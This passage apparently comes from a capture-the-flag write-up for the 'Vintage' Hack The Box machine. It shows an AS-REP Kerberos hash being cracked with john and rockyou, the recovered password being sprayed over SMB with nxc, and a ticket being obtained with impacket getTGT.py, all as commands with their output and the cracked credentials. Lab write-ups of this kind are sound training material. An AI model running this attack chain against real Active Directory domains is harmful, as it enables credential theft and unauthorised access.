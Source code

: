 and we got it lets crack it.

```bash
➜  Vintage john svc_sql_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Zer0the0ne       ($krb5asrep$23$svc_sql@VINTAGE.HTB)
```

BOMMM!!! Lets do password spray.

```bash
➜  Vintage nxc smb DC01.vintage.htb -u users.txt -p 'Zer0the0ne' -k
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\C.Neri:Zer0the0ne
```

noice its work for C.Neri toooooo.

![alt text](../assets/images/vintage16.png)
We are member of RemoteManagementUsers noice!!!!!! lets get beacon.

First we got ccache

```bash
➜  Vintage getTGT.py -hashes :$(pypykatz crypto nt 'Zer0the0ne') 'vintage.htb'/'C.Neri'@10.10.11.45 
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri@10.10.11.45.ccache
```
